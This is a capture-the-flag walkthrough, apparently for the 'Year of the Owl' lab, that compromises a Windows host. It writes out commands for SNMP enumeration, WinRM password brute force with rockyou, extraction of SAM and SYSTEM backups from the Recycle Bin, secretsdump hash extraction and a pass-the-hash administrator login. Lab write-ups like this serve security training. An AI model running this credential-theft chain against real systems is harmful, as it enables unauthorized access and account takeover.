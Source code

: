 # Year of the Owl

## Nmap

```
sudo nmap 10.10.140.97 -p- -sS -sV 

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.10)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.10)
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

First up checking SMB shows we have no ability to authenticate with null credentials.

![](<../../../.gitbook/assets/image (1414).png>)

Port 80 root page takes us to index.php which is just a picture of an owl.

![](<../../../.gitbook/assets/image (1415).png>)

From here I ran Nikto and dirsearch.py and was unable to identify any other files or directories. I then ran extensive wordlists and extension suffixes and was still unable to identify anything.

Checking nmap against port 3306 shows we are now allowed to connect from our external host.

![](<../../../.gitbook/assets/image (1416).png>)

From here I tried a quick scan with Nmap against UDP ports top 10.

```
sudo nmap 10.10.140.97 -sUV --top-ports 10
```

![](<../../../.gitbook/assets/image (1417).png>)

Looking closely at the results we see a non default port is actually SNMP. Nmap was unable to enumerate version information. We can however, run a `onesixtyone` scan against it and see if we get a response.

```
onesixtyone 10.10.140.97 -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt 
```

![](<../../../.gitbook/assets/image (1418).png>)

`onesixtyone` has identified the community string 'openview'. We can then run this with snmp-check to dump all available SNMP information.

```
snmp-check -c openview 10.10.140.97
```

Looking through the results we find a non default username.

![](<../../../.gitbook/assets/image (1420).png>)

With WinRM open on port 5985 we can then bruteforce the user against the service. For this I used `crackmapexec`.

```
crackmapexec winrm 10.10.140.97 -u Jareth -p /usr/share/wordlists/rockyou.txt | grep '(Pwn3d!)'
```

![](<../../../.gitbook/assets/image (1421).png>)

We now have the credentials: `Jareth:sarah` From here we can log into WinRM with Evil-WinRM.

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

Login with the following command:

```
evil-winrm -u jareth -p sarah -i 10.10.140.97 
```

![](<../../../.gitbook/assets/image (1422).png>)

At this point I got really stuck on how to proceed. Initially had issues runnign Winpeas as well until I used a Obfuscated binary linked below.

{% embed url="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases" %}

Even with this running I was unable to identify any key points for escalation. After going through some manual checklists I came across checking the Recycle bin as something that has not been done yet.

```
cd 'c:\$recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'
```

In which we can see sam.bak and system.bak.

![](<../../../.gitbook/assets/image (1423).png>)

To download these files onto the attacking machine we first need to move them out of the Recycle bin and elsewhere onto the system.

```
move .\system.bak c:\users\jareth\documents\system.bak
move .\sam.bak c:\users\jareth\documents\sam.bak
```

We can then download them.

```
download C:\users\jareth\documents\system.bak
download C:\users\jareth\documents\sam.bak
```

After these had downloaded to my attacking machine I ran samdump2 against the file which gave me incorrect hash values. After some troubleshooting I instead tried Impackets secretsdump.py to instead get the correct hash information.

```
sudo python2 secretsdump.py -sam /home/kali/sam -system /home/kali/system LOCAL 
```

![](<../../../.gitbook/assets/image (1424).png>)

From here I tried to crack the administrator password and was able to get a match. Instead I logged into WinRM with Evil-WinRM using the NTLM hash.

```
evil-winrm -u administrator -p aad3b435b51404eeaad3b435b51404ee:6bc99ede9edcfecf9662fb0c0ddcfa7a -i 10.10.140.97
```

![](<../../../.gitbook/assets/image (1425) (1).png>)
